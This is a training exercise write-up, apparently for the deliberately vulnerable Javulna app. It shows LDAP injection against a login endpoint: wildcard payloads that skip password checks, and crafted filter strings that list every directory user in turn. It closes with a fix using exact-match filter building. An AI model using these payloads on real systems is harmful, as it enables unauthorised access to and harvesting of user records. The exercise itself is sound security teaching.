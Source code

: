 # Exercise 8
The LDAP Service is vulnerable to LDAP injection.

We can use a wildcard to match the password to find user data without knowing the user's password:
>{{javulna_host}}/rest/ldap?username=kriszta&password=*

We can also use wildcards in the username to find user's whose name starts with a given letter
>{{javulna_host}}/rest/ldap?username=j*&password=*


## Find all data
By passing a wildcard for both username and password, we get the first user in the directory:
>{{javulna_host}}/rest/ldap?username=*&password=*

So we find **aladar**.

Now we know the first user, we can search for the first user alfabetically after 'aladar':
>{{javulna_host}}/rest/ldap?username=*)(uid>=aladar0))(|(uid=*&password=*

Now we know the next user is **geza**

We can keep repeating this until no user data is found any more:
>{{javulna_host}}/rest/ldap?username=*)(uid>=geza0))(|(uid=*&password=*

>{{javulna_host}}/rest/ldap?username=*)(uid>=kriszta0))(|(uid=*&password=*

## Fix
Use a LDAP filter builder to create a search filter based on exact match for username and password.